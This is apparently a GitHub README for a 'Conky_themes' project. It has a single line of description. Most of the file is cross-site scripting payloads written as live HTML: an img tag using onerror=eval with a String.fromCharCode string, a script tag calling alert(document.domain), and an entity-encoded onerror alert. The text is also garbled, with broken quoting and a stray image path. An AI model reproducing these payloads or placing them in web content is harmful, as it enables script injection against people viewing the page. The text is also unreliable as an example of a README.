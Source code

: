<img src=x:prompt(eval(alt)) onerror=eval(src) alt=String.fromCharCode(88,83,83)># Conky_themes
conky themes for Linux it wery usefull for Network Administrators and so on...
"<p><script type="text/javascript"" src="https://github.com/Gra8-Git/Conky_themes/blob/master/README.md/<script>alert(document.domain);   </script>"</p>"
<img src="#<script>alert(1);</script>" onerror="&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;" />
